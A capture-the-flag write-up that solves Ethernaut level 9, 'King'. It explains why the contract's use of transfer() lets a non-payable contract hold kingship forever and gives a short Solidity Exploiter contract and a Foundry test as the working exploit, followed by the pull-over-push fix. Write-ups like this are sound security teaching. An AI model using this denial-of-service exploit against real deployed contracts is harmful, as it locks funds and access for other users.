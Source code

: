 ```yaml
---
title: 'Ethernaut Challenge #9 Solution — King'
excerpt: This is Part 9 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>Our goal for this challenge is to **break** the smart contract to make it impossible for someone else to gain the kingship again in the future.
coverImage:
  url: '/assets/blog/ethernaut/king.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2022-07-15T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/king.svg'
---
```


This is Part 9 of the ["Let's play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #9: King

> The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
> Such a fun game. Your goal is to break it.
> When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.
>
> Level author: [Alejandro Santander](https://github.com/ajsantander)

Our goal for this challenge is to **break** the smart contract to make it impossible for someone else to gain the kingship again in the future.

## Study the contracts

**State variables**

- `address payable king` the address of the current king. When a new King will take the reign, the old king will receive the `msg.value` sent to the `receive` function
- `uint public prize;` the minimum value that you need to send to the contract if you want to become the new King
- `address payable public owner` the owner of the contract

**`constructor() public payable`**

```solidity
constructor() public payable {
  owner = msg.sender;
  king = msg.sender;
  prize = msg.value;
}
```

It just set up the contract's variables. The `owner` and current `king` is the `msg.sender` (deployer of the contract) and set the `prize` that the new user need to send if he/she want to become the new King

**`function _king() public view returns (address payable)`**

This function just return the current King

**`receive() external payable`**

This is the main function that interest us. As we already know the `receive` function is a **special** function that allow the contract to receive directly Ethers from external contract or EOA. Let's review its code:

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  king.transfer(msg.value);
  king = msg.sender;
  prize = msg.value;
}
```

The first thing that we see is `require(msg.value >= prize || msg.sender == owner)`.
This check allows the `owner` of the contract to always take the kingship of the contract, resetting all the values.

From a security standpoint, this is a huge concern in general because this function allows the `owner` to reset everything without repaying the current `king` and leaving funds stuck in the contract. Let's make an example

- Alice is the `owner` of the contract
- At some point we have Bob that send `1 ETH` to the contract and become the new King

Normally, if Simon wanted to become the new king would send `>= 1 ETH` to the contract and the previous `king` (Bob) would receive the `msg.value` sent along with the transaction.
But the `owner` can send **0 ETH**, become the new King and that `1 ETH` that Bob sent previously will never go back to him. The second problem is that `1 ETH` will always be stuck inside the contract!

But this is not the main problem that will let us exploit the contract and solve the challenge.

The problem is inside the `king.transfer(msg.value)` instruction. The `transfer` function allow a contract to transfer X amount of ETH from an `sender` to a receiver. Before explaining which is the problem, let's review all the possible way we have to do this operation.

Solidity give us three different methods to send an amount of ETH from an account to another

- `receiverAddress.transfer(amount)`: This function consumes `2300` gas and send `amount` of Ether from the caller to `receiverAddress`. The `transfer` function fails if the balance of the current contract is not large enough or if the Ether transfer is rejected by the receiving account. The `transfer` function reverts on failure.
- `receiverAddress.send(amount)`: This function consumes `2300` gas and send `amount` of Ether from the caller to `receiverAddress`. Send is the low-level counterpart of `transfer`. If the execution fails, the current contract will not stop with an exception, but `send` will return `false`.
- `(bool sent, bytes memory data) = receiverAddress.call{value: amount}("");`: this is the low-level function of the previous two that gives a lot of flexibility but introduce also numerous possible problems like **re-entrancy**. By default, `call` forward the whole gas if you don't specify it. If the call to the `receiverAddress` fails, `sent` will return `false`

So now we know that `transfer` allows you to send Ether to an address, consuming `2300` gas and **reverting** if it was not possible to perform the transaction.

Why is it a problem if the "transfer Ether to" transaction revert? Well, because if the `transfer` revert also our `receive` function **revert!**
And by reverting it will make the **Contract unusable**, no one can become the new King!

One possible solution is to just create a `Contract` that will not accept any kind of Ether transfer toward it. Let's see a code example in the solution section and how we could avoid to fall in this security problem.

## Solution code

First, we need to create and deploy a contract that does not accept Ether.

```solidity
contract Exploiter {
    constructor(address payable to) public payable {
        (bool success, ) = address(to).call{value: msg.value}("");
        require(success, "we are not the new king");
    }
}
```

The only purpose of this contract is to become the new King and stop accepting Ether. By not implementing any `payable` functions, `fallback` or `receive` no one can send to this contract Ether. Well, they can send it via a `selfdestroy` but this is not the case!

The rest of the code is pretty easy:

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // Create and deploy a contract that become the new King but will not accept any incoming Ether
    Exploiter exploiter = new Exploiter{value: level.prize() + 1}(payable(address(level)));

    // assert that we are the new king!
    assertEq(level._king(), address(exploiter));

    vm.stopPrank();
}
```

How could the `King` contract prevent this problem from happening?

Well, the first thing would be to adopt a **pull-over-push pattern** where you store the amount that the old king can withdraw and create a function that allows them to withdraw later.

You can read the full solution of the challenge opening [King.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/King.t.sol)

## Further reading

- [Solidity Docs: Sending and Receiving Ether](https://docs.soliditylang.org/en/v0.8.13/security-considerations.html#sending-and-receiving-ether)
- [Solidity Docs: Withdrawal from Contracts](https://docs.soliditylang.org/en/latest/common-patterns.html#withdrawal-from-contracts)
- [SWC-113: DoS with Failed Call](https://swcregistry.io/docs/SWC-113)
- [ConsenSys Smart Contract Best Practices: Don't use `transfer()` or `send()`](https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/#dont-use-transfer-or-send)
- [ConsenSys Smart Contract Best Practices: Favor _pull_ over _push_ for external calls](https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/#favor-pull-over-push-for-external-calls)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
